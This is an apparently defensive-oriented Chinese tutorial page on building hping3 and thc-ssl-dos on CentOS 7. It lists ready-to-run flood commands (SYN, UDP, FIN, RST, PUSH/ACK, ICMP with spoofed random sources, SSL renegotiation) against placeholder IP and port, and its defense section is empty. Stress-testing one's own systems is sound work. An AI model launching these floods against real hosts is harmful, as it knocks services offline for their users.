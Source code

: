 ## 概述

## 利用工具
### hping3
[Hping3官网地址](http://www.hping.org/hping3.html)

* Centos7编译安装 ( Kali自带 )

```

# 解决环境依赖
yum install gcc.x86_64 libpcap-devel.x86_64 tcl-devel -y

# 下载
wget http://www.hping.org/hping3-20051105.tar.gz

# 解压并开始编译
tar -xf hping3-20051105.tar.gz && cd hping3-20051105
./configure

# 报错如图
```

![ddos-1](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-1.png)

```
# 修改文件，解决问题，修改如图
vim bytesex.h
```

![ddos-2](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-2.png)

```
# 编译，此时报错如图
make
```

![ddos-3](https://github.com/bloodzer0/Enterprise_Security_Build--Open_Source/blob/master/Infrastructure%20Security/Network%20Security/DoS%20DDoS%20CC/img/ddos-3.png)

```
# 解决问题
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h

# 再次编译
make && make instal

# 安装成功
```

* hping3案例

```
# 测试SYN Flood
hping3 -S --flood -V -p PORT IP
hping3 -c 20000 -d 120 -S -w 64 -p PORT --flood --rand-source IP # 随机源IP

# 测试UDP Flood
hping3 --flood --rand-source --udp -p PORT IP

# 测试TCP FIN Flood
hping3 --flood --rand-source -F -p PORT IP

# 测试TCP RST Flood
hping3 --flood --rand-source -R -p PORT IP

# 测试PUSH和ACK Flood
hping3 --flood --rand-source -PA -p PORT IP

# 测试ICMP和IGMP Flood
hping3 --flood --rand-source -1 -p PORT IP
```

### Thc-SSL-DoS
* Centos7编译安装 ( kali自带 )

```
# 解决环境依赖
yum install gcc.x86_64 openssl-devel.x86_64 -y

# 下载
git clone git://git.kali.org/packages/thc-ssl-dos.git && cd thc-ssl-dos

# 编译安装
./configure

make && make install
```

* thc-ssl-doS使用

```
thc-ssl-dos -l 500 IP PORT --accept
```

## 防御
